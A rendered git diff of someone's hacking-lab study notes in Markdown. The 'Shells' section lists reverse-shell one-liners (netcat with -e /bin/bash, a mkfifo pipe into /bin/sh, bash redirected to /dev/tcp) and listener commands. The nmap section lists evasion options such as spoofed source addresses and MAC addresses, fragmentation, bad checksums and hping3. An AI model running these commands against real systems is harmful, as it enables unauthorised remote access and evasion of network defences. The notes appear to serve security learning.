

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 1_Linux.md, 2 parts joined by grey strips. Shown at 86% size. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/1_Linux.md
+++ b/1_Linux.md
@@ -86,16 +86,28 @@
 
 # Shells
 - Reverse:
-  - target:
-    - nc <LOCAL-IP> <PORT> -e /bin/bash
-    - nc DEST_IP DEST_PORT -c "/bin/bash 2>&1"
-    - nc DEST_IP DEST_PORT | /bin/bash 2>&1 | nc DEST_IP DEST_PORT+1
-    - mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
-    - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LOCAL-IP> <PORT> >/tmp/f”
-    - No NC:
-      - bash &>/dev/tcp/DEST_IP/DEST_PORT <&1
-      - bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"
-  - Ziel: nc -nlvp PORT
+  - [Atacker] LISTENER <---------[Victim]
+- - Binding:
+  - [Victim] LISTENER <---------[Atacker]
+
+- **Connect**
+  - -u = UDP connection
+  - nc <LOCAL-IP> <PORT> -e /bin/bash
+  - nc DEST_IP DEST_PORT -c "/bin/bash 2>&1"
+  - nc DEST_IP DEST_PORT | /bin/bash 2>&1 | nc DEST_IP DEST_PORT+1
+  - mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
+  - rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LOCAL-IP> <PORT> >/tmp/f”
+  - **No NC**:
+    - bash &>/dev/tcp/DEST_IP/DEST_PORT <&1
+    - bash -c "bash &>/dev/tcp/DEST_IP/DEST_PORT <&1"
+
+- **Listener**
+  - nc -nlvp PORT ==> TCP listener
+  - nc -ulvnp PORT ==> UDP listener
+
+
+
+
 
 ## PWNCAT-CS
 - nc with steroids
@@ -281,26 +305,45 @@
 - workspace name (move to name)
 
 ### NMAP - DB_NMAP
-- db_nmap
+- db_nmap | nmap
+- Scripts
   - --scrip *script_name*: most commom vulnerability scrips, CVEs will be shown
     - https://www.exploit-db.com/
     - https://nvd.nist.gov/vuln/full-listing
   - -sC: other common scripts
-  - -sS (Syn), -sA(Ack)
+
+- Basic scans
+  - -sS (Syn), -sA(Ack), -sU (UDP)
   - -A: basic scan with OS include
     - -sV -O -sC [default scripts] --traceroute
+  - -sV: version of services found
   - -p-: all ports
-  - -sV: version of services found
+  - -g 123 / --source-port 123 ==> all trafic from the specific port number
+    - UPD 53 - dns
+    - TCP 80 - http
+  - -S [Spoofed] -e [INTERFACE] -Pn [NO Ping] => we need to monitor the traffic
   - -Pn: no ping
+  - --spoof-mac [MAC]
+
+- Size and intensitiy
   - -T[0-5] = Control speed
-  - -S [Spoofed] -e [INTERFACE] -Pn [NO Ping] => we need to monitor the traffic
-  - --spoof-mac [MAC]
-  - -f[-f] => fragment
-  - --reason / -v / -vv / -d / -dd
+  - -F = faster
+  -  -f = 8 bytes / -ff 16 byes = fragmentation
+  - --mtu 128 = custom size
 
 - Output
+  - --reason / -v / -vv / -d / -dd
   - -oN = normal output
   - -oG = grep output
+
+- Invalid packets
+  - --badsum = alterad package
+  - --scanflags URG,ACK,PSH,RST,SYN,FYN {SYNRSTFIN}
+  - Alternative
+    - hping3
+      - -t time to live
+      - -b badsum
+      - -S,-A,-P-U-F-R
 
 - hosts: list hosts from db
   - -a: add
```
Also changed, not shown: other parts of 1_Linux.md (+12 -0 lines), 0_theory.md (+2 -5 lines), 3_Network.md (+52 -43 lines).
